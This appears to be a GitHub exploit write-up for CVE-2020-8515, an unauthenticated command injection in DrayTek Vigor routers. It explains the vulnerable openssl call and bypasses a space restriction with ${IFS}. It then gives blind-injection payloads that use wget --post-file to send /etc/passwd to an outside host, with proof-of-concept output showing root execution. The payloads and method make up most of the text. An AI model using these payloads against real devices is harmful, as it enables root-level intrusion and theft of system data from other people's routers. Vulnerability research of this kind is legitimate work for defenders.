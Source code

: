 ## DrayTek Command Injection
List of CVE :
* CVE-2020-8515

```bash
openssl rsautl -inkey '%s' -decrypt -in %s
```
first argument is our `keyPath` after `sym.imp.cgiGetValue`  
second argument is string of `/tmp/rsa/binary_login`  

No string parser function, limitation. perfect situation of command injection.  

to create an exploit for this, first i try to look around on the firmware binary of vigor 3900 v1.4.4. extract the *UBI* Image  
and dump the image to create some rootfs folder.  

why so ? first i must know the embeded binary inside this arm device so i can figure it out if this bug is triggered,  
but it will not output the result. this option is for blind command injection.  

the skullarmy blog say that there's space limitation, so i replace the space with `${IFS}`  
![alt text](https://1.bp.blogspot.com/-TWVGJJ56sDs/XjHZ3gPlDnI/AAAAAAAABXU/NR3BGlbaapcHHTSw-sTZVC3glgqptU4SACEwYBhgL/s1600/2020-01-29_16-15_1.png "space limitation")  
so i picked up this payload `/bin/wget${IFS}--post-file=/etc/passwd${IFS}https://bla.bla.com` and start the the job.  

after a quite long trial-error, i get my first blind with `'\n/bin/wget${IFS}--post-file=/etc/passwd${IFS}https://bla.bla.com${IFS}#`

but it doesn't send the passwd content. i try to put newline on the end of the payload and it's work!  
`'\n/bin/wget${IFS}--post-file=/etc/passwd${IFS}https://bla.bla.com${IFS}\n#`

try with other command :
```bash
▶ python3 poc.py 
b'uid=0(root) gid=0(root)\nuid=0(root) gid=0(root)\n'
```

### Credits & Thx for :
* [@Netlab360](https://blog.netlab.360.com/two-zero-days-are-targeting-draytek-broadband-cpe-devices-en/)
* [@skullarmy](https://www.skullarmy.net/2020/01/draytek-unauthenticated-rce-in-draytek.html)
